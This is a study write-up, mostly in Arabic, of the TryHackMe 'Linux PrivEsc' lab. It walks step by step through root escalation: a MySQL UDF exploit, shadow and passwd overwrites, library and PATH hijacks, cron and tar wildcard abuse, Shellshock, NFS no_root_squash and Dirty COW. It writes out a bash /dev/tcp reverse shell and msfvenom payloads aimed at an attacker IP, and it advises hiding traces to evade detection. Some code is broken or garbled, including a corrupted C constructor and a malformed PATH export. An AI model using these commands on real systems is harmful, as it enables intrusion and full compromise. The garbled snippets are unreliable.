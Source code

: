 # Linux PrivEsc               

![image](https://github.com/user-attachments/assets/b1fe0a80-97d4-4951-9e6b-885165fc33a5)

[tryhackme_Linux PrivEsc](https://tryhackme.com/room/linuxprivesc?ref=blog.tryhackme.com)


<details>
  <summary>Service Exploits</summary>

## Linux Privilege Escalation via MySQL UDF Exploit

### 🎯 Goal

Gain **root shell access** by exploiting a misconfigured MySQL service (running as root with no password) using a **User Defined Function (UDF)**.

---

### 🔹 Overview

* MySQL is running **as root**.
* The **"root" MySQL user has no password**.
* We'll use a known exploit (`raptor_udf2.c`) to create a MySQL function that executes **system commands as root**.

---

### 🧪 Step-by-Step Instructions

#### 1. 🔧 Go to the exploit directory:

```bash
cd /home/user/tools/mysql-udf
```

#### 2. ⚙️ Compile the UDF exploit code:

```bash
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

* This compiles the `.c` code into a shared object `.so` file.
* `-fPIC` and `-shared` are necessary to load it as a library into MySQL.

#### 3. 🛠️ Connect to MySQL as root (no password):

```bash
mysql -u root
```

#### 4. 📦 Create the custom function in MySQL:

```sql
use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
```

* This loads the `.so` file as a **MySQL plugin**.
* It creates a **new function `do_system()`** that can execute system commands.

#### 5. 🧨 Use the function to gain a root shell:

```sql
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
```

* Copies `/bin/bash` to `/tmp/rootbash`.
* Sets SUID bit so it runs **with root privileges**.

#### 6. 🚪 Exit MySQL and run root shell:

```bash
exit
/tmp/rootbash -p
```

* `-p` allows bash to run as the **effective UID 0 (root)**.

#### 7. 🧹 Clean Up

```bash
rm /tmp/rootbash
exit
```

* Delete the SUID binary.
* Exit root shell to avoid detection.

---

### ✅ Summary

| Step | Action                                           |
| ---- | ------------------------------------------------ |
| 1    | Compile UDF exploit into `.so` file              |
| 2    | Connect to MySQL (no password)                   |
| 3    | Inject `.so` into MySQL plugin path              |
| 4    | Create and use `do_system()` to copy + SUID bash |
| 5    | Run bash with `-p` for root shell                |
| 6    | Remove `/tmp/rootbash` and exit                  |

🔐 **Always clean up and remove root shells after testing!**

---

🛡️ **Note:** This method only works if:

* MySQL runs as root
* You can connect as root (no password)
* You can write to plugin directory (`/usr/lib/mysql/plugin`)

Used responsibly, this is a great example of **local privilege escalation** via a poorly configured MySQL setup.

  
</details>




<details>
  <summary>Weak File Permissions</summary>

* <details>
    <summary>Readable /etc/shadow</summary>

    ### 1. Readable /etc/shadow (يمكن قراءته)

    * `ls -l /etc/shadow`
        * `-rw-r----- root shadow /etc/shadow` (أي يمكن قرائته)

    * `cat /etc/shadow`
    * (كل اليوزرات بالباسورد تبعها متهاش Hash)

    * **To know type of hash**
        * `john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`
    * (يكسر ال hash و يقولك على نوعه)
    
  </details>

* <details>
  <summary>Writable /etc/shadow</summary>

   ### 2. Writable /etc/shadow (يمكن الكتابة)

   * (لو الملف ده ينفع تكتب فيه هتمسح الباسورد بتاع ال root user أو admin user وتحط مكانه باسورد من عندك)

   * `mkpasswd -m sha-512 newpassword`    (ممكن تعمل باسورد بالامر ده)
      

   * `su root`
    * (ادخل الباسورد الجديد)
    * !!!مبروك
  
  </details>



* <details>
     <summary>Writable /etc/passwd</summary>

    ### 3. Writable /etc/passwd (يمكن الكتابة)

   * `openssl passwd frank`
    * (لعمل باسورد جديد)
       * `$1$aBcDeF$gH...`

   * `nano /etc/passwd`
       * `root:x:0:0:root:/root:/bin/bash` (remove `x`)
       * Becomes -> `root::0:0:root:/root:/bin/bash` (الباسورد الان فاضي)
       * `root:$1$aBcDeF$gH...:0:0:root:/root:/bin/bash` ( اكتب الباسورد اللى انت عملته مكان ال `x`)

   * `su root`
    * (اكتب الباسورد الجديد و مبروك عليك!!!)


  </details>




  
</details>



<details>
  <summary>Sudo</summary>


* <details>
     <summary>Shell Escape Sequences</summary>

    * `sudo -l`
    * (عرض الأوامر التي يمكن تشغيلها باستخدام Sudo بدون الحاجه لادخال كلمه مرور)
  

    * **`gtfobins.github.io`**
    * (البحث في gtfobins عن أوامر قابلة للاستغلال)

     
  </details>


* <details>
     <summary>Environment Variables</summary>

   * **Environment Variables:** `(LD_LIBRARY_PATH - LD_PRELOAD)`
    * (يمكن نستغل الـ Environment variables دي)
    * **شرح بسيط:** (عشان أي برنامج يعمل لابد يحتاج الى تحميل مكتبات مشتركه لتنفيذ وظائف معينه أماكن هذه المكتبات `Lib` أو `/usr/lib`)
    * (هذه المتغيرات تتحكم في كيف وأين يبحث البرنامج عن مكتبات نقدر نستغلها علشان نوصل بيها للـ root)


    >[!warning] ⚠️⚠️
    >
    > لو عملنا مكتبه تحتوى على كود خبيث (مثلا كود بيفتح `root shell`)
    >
    > وجعلنا **_`LD_PRELOAD`_** يشير اليها فان :
    >
    > اى برنامج يتم تشغيله بصلاحيات ال ``SUDO`` هيقوم اولا بتحميل المكتبه الخبيثه التى انشاناها مم يعطيك صلاحيات ``ROOT``



   This method works if `LD_LIBRARY_PATH` is inherited. It tells a program to look for shared libraries in a specified directory first, allowing you to hijack a library call.

   1.  **Find a target library:**
       * Use `ldd` to see which shared libraries a program uses.

       ```bash
       ldd /usr/sbin/apache2
       ```

   2.  **Create a malicious shared object:**
       * Compile the C code from `/home/user/tools/sudo/library_path.c`.
       * **Crucially, name the output file the same as one of the libraries used by the target program** (e.g., `libcrypt.so.1`).

       ```bash
       gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
       ```

    3.  **Run the program with `LD_LIBRARY_PATH`:**
        * Execute the program using sudo, setting `LD_LIBRARY_PATH` to the directory containing your malicious library (`/tmp`).

        ```bash
        sudo LD_LIBRARY_PATH=/tmp apache2
        ```
  
    * This should also spawn a root shell because the program loads your malicious `libcrypt.so.1` instead of the real one.

   #### **Further thought / exercise:**

   * Try renaming `/tmp/libcrypt.so.1` to the name of another library used by `apache2` and re-run the exploit. Does it still work? If not, why? How would the        `library_path.c` code need to be changed to make it work with a different library?



  </details>

  
</details>


 



<details>
  <summary>Cron Jobs</summary>


* <details>
     <summary>File Permissions</summary>


    # Cron Jobs - File Permissions (Crontab)

   ### 5) Cron Jobs - File Permissions

   * **Cron Job** هو مهمه مجدوله مع تشغيلها تلقائيا في أوقات محدده
    * الملف اللي فيه المهام المجدوله -> `/etc/crontab`

   ---

   **ex:**

   * `cat /etc/crontab`
    * وجدنا أن الملف ده -> `overwrite.sh`
    * الآن نريد تحديد مكانه

   * `locate overwrite.sh`
       * `/usr/local/bin/overwrite.sh`
    * لاقيناه وهنلاحظ انه قابل للتعديل


   * `nano /usr/local/bin/overwrite.sh`
       * `#!/bin/bash`
       * `bash -i >& /dev/tcp/10.0.47.102/4444 0>&1` the ip of ``tun0``
   
    * هنستبدل محتوى الملف بالكود ده
    * الكود ده بيخلى جهاز الضحيه يتصل بنا عن طريق ``NetCat`` على منفذ ``4444``
    * وبعدين نحفظ الملف ونتاكد انه قابل للتنفيذ ``chmod +x``
  

   * `nc -nvlp 4444`
    * ( الآن بنقوم بالإستماع على ال port 4444 )

   * بمجرد ما الملف يخلص شغله هتكون راجعلنا بالجهاز
   * بصلاحية Root عن طريق -> **Reverse Shell**

   * `whoami` 
       * `root`
    * مبروك

     
   </details>



* <details>
     <summary>PATH Environment Variable</summary>


   # Cron Jobs - PATH Environment Variable

   (overwrite.sh لو مينفعش تكتب جواه)

   ### 6) Cron Jobs - PATH Environment variable

   * هنا بنستغل اعدادات الـ PATH الخاصة بالـ Cron Jobs للوصول على صلاحيات الـ `root`

   * `cat /etc/crontab`
       * `PATH=/home/user:/usr/local/sbin:/...`
       * هنا في مشكله هو بيبحث عن الملفات المجدوله زى overwrite.sh
       * لكن بيبدأ البحث في `/home/user` والملف الاصى موجود فى `/usr/local/bin`
       * ده معناه إن لو عملنا ملف بنفس الاسم
       * في `/home/user` وكتبنا فيه كود خبيث يخلينا نحصل صلاحيات `root`

   * `nano /home/user/overwrite.sh`
       * `#!/bin/bash`
       * `cp /bin/bash /tmp/rootbash`
       * `chmod +s /tmp/rootbash`
       * الكود ده بينقل ال ``bash`` ل ``/tmp/rootbash`` وده ملف احنا عملناهو بعد كده يديلو صلاحيات ``SUID``
       * اى ان المستخدم يمكنه تشغيل ``BASH`` بصلاحيات ``root``
    

   * `chmod +x /home/user/overwrite.sh`
       * نخلي الملف قابل للتنفيذ
       * الآن عند تشغيل الـ cron الملف هيتنفذ ما يؤدي الى
       * إنشاء `rootbash` في `/tmp/`

   * `/tmp/rootbash -p`
       * الأمر ده هيخلي `bash` يحتفظ بصلاحيات ال `root`
       * من بعد تشغيله من قبل مستخدم عادي

   * `whoami`
       * `root`


   > ### ليه استخدمنا ``/tmp`` لتخزين الملف
   >
   - > عشان ده مجلد عام يمكن لاى مستخدم يكتب فيه لذا يمكنك انشاء ملفات بدون صلاحيات
   - > معظم الانظمه تمسح الملفات داخل ``/tmp`` تلقائيا عند اعاده التشغيل مما يساعد فى اخفاء الادله بعد الهجوم

     
   </details>



* <details>
     <summary>Wildcards</summary>

   # Cron Jobs - Wildcards

   (مثلا الملف المجدول ده هي `compress.sh`)
   (`` * `` بتنفذ الاوامر على كل الملفات)

   ### 7) Cron Jobs - WildCards

   * استغلال `tar` الذي يعمل داخل المهمة المجدولة للوصول لصلاحيات `root`. وبما ان الأمر `tar` يتم تشغيله باستخدام `*` فسوف نضيف ملفات أسماءها شبيهه لأوامر `tar` ما يمكننا من عمل Reverse Shell والتحكم بالجهاز.

   * `cat /usr/local/bin/compress.sh`
       * `cd /home/user`
       * `tar czf /tmp/backup.tar.gz *` -> (هينفذ كل الاوامر اللي هنا و يوديها ``/tmp``)

   * `msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.0.47.102 LPORT=4444 -f elf -o shell.elf`
       * (على جهازنا، نعمل `shell` عن طريق `msfvenom` باستخدام `shell` لـ linux)

   * `scp shell.elf user@10.10.242.228:/home/user`
       * (بنقوم بنقل الملف لجهاز الضحية)

   * `chmod +x /home/user/shell.elf`
       * (نجعل الملف قابل للتنفيذ)

   * `touch /home/user/--checkpoint=1`
   * `touch /home/user/--checkpoint-action=exec=./shell.elf`

   * `nc -nvlp 4444`
       * (والاستماع على `port 4444` من أجل الحصول على `shell`)

   * `whoami` or `id`
       * `root`



   > ### لماذا ``tar`` كان قابل للاستغلال ؟
   >
   > لان ``tar`` يرى ملفات تحمل اسماء مشابهه لخيارات سطر الاوامر ``--checkpoint=1`` يعتبرها كانها
   > خيارات فعليه او اوامر وليست مجرد اسماء ملفات
   >
   > ### هل يمكن تنفيذ نفس الاستغلال على برامج اخرى ؟
   >
   > نعم مثل :
   >
   > rsync , find , cp , mv , gzip , sort , grep , awk
   >
   > ستجد استغلالهم على gtfobins.io 


     
</details>
  
</details>





<details>
  <summary>SUID / SGID Executables</summary>

* <details>
     <summary>Known Exploits</summary>

   # SUID/SGID Executables - Known Exploits

   ### 8) SUID/SGID Executables - known exploits

   * استغلال البرامج التي تعمل بصلاحيات SUID أو SGID للحصول على صلاحيات الـ `root`.

   * `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`
       * البحث عن ملفات تحمل صلاحيات SUID أو SGID.
       * Example found: `/usr/sbin/exim-4.84-3`

   * search on ``exploitDB`` about **_exim-4.84-3_**
       * on this room Found exploit code at: `/home/user/tools/suid/exim/cve.sh`
       * (هنا في كود الاستغلال اللي وجدناه لبرنامج exim)

   * `chmod +x /home/user/tools/suid/exim/cve.sh`

   * `whoami`
       * `root`
       * (مبروك)


  </details>


* <details>
     <summary>Shared Object Injection</summary>


   # SUID/SGID Executables - Shared Object Injection

   ### 9) SUID/SGID executables - Shared object injection

   * هنا ضمن الملفات التي وجدناها تحمل صلاحيات SUID SGID وجدنا الملف: `/usr/local/bin/suid-so`
   * عند محاولة تشغيله يقوم بالتحميل ولكن لا نعرف ماذا يحدث.

   * `strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"`
       * عرض العمليات التي يقوم بها الملف من قبل `strace` لفلترة العمليات التى تخص 
       * فتح ملفات او محاولات البحث عن ملفات غير موجوده
       * Example output showing a missing library: `/home/user/.config/libcalc.so`
       * (وجدنا أن الملف يحاول تحميل مكتبه مشفره ولكنه لا يجدها)

   * `mkdir /home/user/.config`
       * (المجلد الذى به الملف)

   * Create the malicious library file (`libcalc.c`):
       * (قم بعمل هذا الملف فى اى مسار على النظام)
       ```c
       #include <stdio.h>
       #include <stdlib.h>

       void _attribute_((constructor)) init() {
           setid(0);
           setلid(0);
           system("/bin/bash");
       }
       ```

   * `gcc -shared -fPIC -o /home/user/.config/libcalc.so ~/path/to/your/libcalc.c`
       * (تم تحويل الكود من الملف إلى مكتبه مشتركه وإرساله الى المسار المراد)

   * `/usr/local/bin/suid-so`
       * (تشغيل الملف مرة أخرى ولكن هذه المرة سوف يجد المكتبة المحقونة وتكون خبيثة)

   * `whoami`
       * `root`
       * (مبروك يا باشا)


  </details>


* <details>
     <summary>Environment Variables</summary>


   # SUID/SGID Executable - Environment Variables

   ### 10) SUID/SGID executable - Environment variables

   * ضمن الملفات التي وجدناها تحمل صلاحيات SUID/SGID وجدنا الملف: `/usr/local/bin/suid-env`
   * عند تشغيل الملف هنلاحظ إنه سيحاول تشغيل Apache2 بس من غير ما يتحددله مسار كامل لتشغيل هذه الخدمة
   * بـ `service apache2 start` (مسار غير كامل).
     * ده مثال للمسار الكامل ``/usr/sbin/servic apache2 atart``

   * `strings /usr/local/bin/suid-env`
       * This shows the program calls `service apache2 start`.

   * `gcc -o service /home/user/tools/service.c`
       * هنعمل ملف باسم `service` فيه كود خبيث مثل الأكواد الخبيثة السابقة ونستخدم `gcc` لإنشاء ملف تنفيذي.

   * `export PATH=.:$PATH/usr/local/bin/suid-env`
       * ولابد أن يبحث النظام في المسار الحالي (`.`) قبل المسارات الأخرى.
          * المسار الحالى ``/home/user``

   * Now run the SUID executable: `/usr/local/bin/suid-env`
       * It will execute your malicious `./service` file instead of the system's `service` command.

   * `whoami`
       * `root`



  </details>


* <details>
     <summary>Abusing Shell Features (#1)</summary>


   # SUID/SGID Abusing - ShellShock Partners #1

   ### 11) SUID/SGID Abusing - ShellShock Partners #1

   * استغلال ثغرة في إصدارات `Bash` قبل الـ `4.2-048` تكمن باسم `ShellShock Function import`. والتي تسمح للمهاجم بتعريف دالة `Bash` تحمل نفس اسم مسار، تنفيذ برنامج معين
   * ثم تصديرها بحيث تستخدم بدلا من البرنامج الاصلى عند استدعائه.
   * في الملف `/usr/local/bin/suid-env2` له نفس صلاحيات `suid/sgid` مثل الملف السابق لكن الفرق أنه بيشغل المسار كامل.

   * `/bin/bash --version`
       * Output might be something like `4.1.5` -> (إصدار Bash قديم)

   * Define a function with the same name as the command path:
       ```bash
       function /usr/sbin/service { /bin/bash -p; }
       ```

   * Export the function:
       ```bash
       export -f /usr/sbin/service
       ```
       * (هذا الكود سيقوم بتعريف دالة في `bash` تحمل اسم `/usr/sbin/service` و عند تشغيلها . تقوم بفتح `Bash Shell` بصلاحيات محفوظه (`-p`)
       * ثم تصدير الداله مما يجعلها تستخدم بدلا من استخدام ``/usr/sbin/service`` عند استدعاؤها)

   * Run the SUID executable:
       ```bash
       /usr/local/bin/suid-env-2
       ```
       * (تشغيل الملف الذي سيستدعي `service` الذي تم حقنه ليشغل `Bash Shell` ويأخذنا إلى صلاحيات `root`)

   * `whoami`
       * `root`
       * (مبروك!!!)



  </details>


* <details>
     <summary>Abusing Shell Features (#2)</summary>


   # SUID/SGID Executable - Abusing Shell #2

   ### 12) SUID/SGID executable - Abusing Shell #2

   * إستغلال أيضاً إصدارات `Bash` القديمة ولكن لتمكين وضع ال  `Debugging`.
   * و الاستفادة من متغير `PS4` لحقن أمر خبيث يمكن المستخدم من ترقية صلاحياته والحصول على `Root Shell`.

   * Run the SUID executable with custom environment variables:
       ```bash
       env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
       ```
       * (إنشاء نسخة من `Bash` بصلاحيات `Root` ما سيسمح للمهاجم بالحصول على `Root Shell`)

   * Execute the newly created SUID shell:
       ```bash
       /tmp/rootbash -p
       ```
       * (تشغيل الملف الذي أنشأناه بصلاحيات `Root` الذي يحافظ على الصلاحيات `p-`)



  </details>



  
</details>







<details>
  <summary>Passwords & Keys</summary>


* <details>
     <summary>History Files</summary>

   # Passwords & Key - History Files

   ### 13) Passwords & key - history files

   * ممكن يكون المستخدم قد كتب الباسورد بالخطأ وسط أوامر بدلاً من نافذة إدخال كلمة السر.

   * Check the user's history file for credentials:
       ```bash
       cat ~/.history | less
       ```

   * Example of a password found in the history:
       ```bash
       mysql -h somehost.local -u root -pPassword123
       ```

  </details>

* <details>
     <summary>Config Files</summary>

    # Passwords & Keys - Config Files

    ### 14) Passwords & keys - Config files

    * إستغلال وإعدادات الـ `Config files` التي تحتوي على ملفات حساسة.

    * Check a configuration file:
        ```bash
        cat /home/user/.myvpn.oven
        ```
        * The output might reference another file containing credentials: `auth-user-pass /etc/openvpn/auth.txt`
        * (وجدنا هذا المسار)

    * Read the file containing the credentials:
        ```bash
        cat /etc/openvpn/auth.txt
        ```
        * The output could be the username and password:
        ```
        root
        Password123
        ```
        * (مبروك عليك اليوزر والباسورد)

  </details>

* <details>
     <summary>SSH Keyss</summary>

   # Passwords & Keys - SSH Keys

   ### 15) Passwords & keys - SSH keys

   * `ls -la`
       * We found the `.ssh` directory.

   * `ls -l .ssh`
       * Inside, we find a private key, for example: `root_key`
       * (وجدنا الـ private key الخاص بالـ `root`. سنقوم بنقله على جهازنا الـ `kali` الخاص بنا داخل ملف `root-key`)

   * `chmod 600 root_key`
       * (هذا لجعل المفتاح مقروء فقط من قبل المستخدم الحالي مما يمنع `ssh` رفضه)

   * `ssh -i root_key root@10.10.19.152`
       * This logs you in as root.
       * `root#`
       * (مبروك عليك)


  </details>
  
</details>




<details>
  <summary>NFS</summary>


# NFS (Network File System)

### 16) NFS

* عند مشاركه ملف عبر NFS، يمكن للمستخدمين عن بعد إنشاء ملفات على النظام المستضيف وعادة ما يتم تشغيل `root_squashing` لمنح الشخص `root`. يمن امتلاك الملفات على النظام المضيف لكن هنا تم تعطيل هذه الميزه ``هذا الlab``

#### On the Server Machine

* Check the NFS share configuration:
    ```bash
    cat /etc/exports
    ```
    * Look for `no_root_squash` in the output, output for example: `/tmp *(rw,no_root_squashing)`

#### On the Client (Attacker) Machine

1.  **Mount the share:**  ``على جهازى``
    ```bash
    sudo su     
    mkdir /tmp/nfs
    mount -o rw,vers=3 <server_ip>:/tmp /tmp/nfs  #عنوان الماششين او ال lab
    ```
    * يتم ربط ``/tmp/nfs`` فى kali بمجلد ``/tmp`` على الخام او الماشيين 
    * أي ملف يتم إنشاؤه في `/tmp/nfs` على `kali` سيظهر مباشرة في `/tmp` على الخادم.
    *  وبما أن `no_root_squash` مفعل فإن أي ملف ينشئه `root` على `kali` سيحمل ملكية `root` على الخادم (machine)
    *  

1.  **Create a malicious payload:** ``on my device``
    ```bash
    msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
    ```
    * (إنشاء ملف خبيث ووضعه داخل `/tmp/nfs` والذي سيمكننا من عمل `shell` الذي سيعطينا صلاحيات `root` على الخادم)

2.  **Make the payload SUID and executable:** ``on my device``
    ```bash
    chmod +xs /tmp/nfs/shell.elf
    ```
    * (إعطاء الملف الصلاحية اللازمة ليكون `SUID` وجعله قابل للتنفيذ)

#### On the Server Machine

* **Execute the payload:** ``on server``
    ```bash
    /tmp/shell.elf
    ```
    * (تشغيل الملف الخبيث على الخادم)

* **Check your identity:**
    ```bash
    whoami
    ```
    * `root`
    * (مبروك)



> ## ما هو NFS (Network File System) ؟
>
- >  هو بروتوكول يسمح بمشاركه الملفات بين الاجهزه على الشبكه
- > يسمح يسمح للمستخدمسن بتركيب ``(mount)`` مجلدات من جهاز الى اخر كما لو كانت عليه

  # ``المشكله`` 
- > ال ``(root shquashing)`` هى ميزه امان فى ``NFS`` تمنح المستخدم ``ROOT`` على جهاز العميل من ان يكون ``ROOT`` على الخادم
- > عندما تكون هذه الميزه معطله  ``(no_root_squashing)`` فان ``ROOT`` على جهاز العميل يصبح ``ROOT`` على جهاز الخادم مما يسمح بعمل ``PRIVESC``
 
  
</details>





<details>
  <summary>Kernel Exploits</summary>


# Kernel Exploits - Dirty Cow

(Copy-on-write)

### 17) Kernal Exploits - (Dirty Cow)

* اختراق النظام عن طريق استغلال ل ثغره فى ``kernal`` وتحديدا ثغره ``dirty cow`` اللى هى ثغره تصعيد صلاحيات فى ``linux``

* Find potential exploits:
    ```bash
    perl /home/user/tools/kernel-exploits/linux-exploit-suggester-2/linux-exploit-suggester-2.pl
    ```
 
   * ده اسكربت مكتوب بلغه ``perl`` بيفحص النظام ويعرض قائمه بالثغرات الموجوده فى ال ``kernal`` بحيث تختار واحده منها وتستغلها

* **Exploit Details:**
    * **Vulnerability:** Dirty Cow
    * **CVE:** CVE-2016-5195
    * **Source:** `http://exploit-db.com/exploits/45697`

* **The exploit code**
    * ``/home/user/tools/kernel-exploits/dirtycow/c0w.c``
       * ده كود بيستغل هذه الثغره موجود عندنا على الماشيين بس فى الحياه الواقعيه هتكتبه او تجيبه جاهز
       * المهم ``cow`` هو ميكانزم او اليه بيستخدمها ال ``kernal`` لحمايه البيانات فى الذاكره
       * الكود ده بيستبدل ``/usr/bin/passwd`` المسؤول عن تغيير كلمات المرور بملف ``shell`` يمنح صلاحيات ``root`` و بيعمل نسخه احتياطيه ل ``/usr/bin/passwd``
       * فى ``/tm/bak`` عشان يرجعله بعد الاستغلال
         

* **Compile the exploit:**
    * `gcc -pthread /tools/kernal-exploit/DirtyCow/cow.c -o cow`
       * تحويل الكود لملف تنفيذى لاستخدامه لتنفيذ الثغره 
    

* **Run the exploit:**
    ```bash
    ./cow
    ```

    * تشغيل الملف.
    * الان قام باستبدال ``/usr/bin/passwd`` بملف ``shell``

* **Trigger the payload:**
    ```bash
    /usr/bin/passwd
    ```
    * (تشغيل الملف الآن بعدما استبدل `shell` بملف `/usr/bin/passwd`)

* **Check your identity:**
    ```bash
    whoami
    ```
    * `root`
    * (مبروك)

  
</details>




---

> [!important]
> ### privesc-scripts


* Linpeas.sh
* LinEnum.sh
* Lse.sh

---

### send ``scripts`` to server:

on folder that have ``Linpeas.sh``:

```
python3 -m http.server 8888
```

on server:

```
wget http://<tun0_IP>:8888/Linpeas.sh
```

















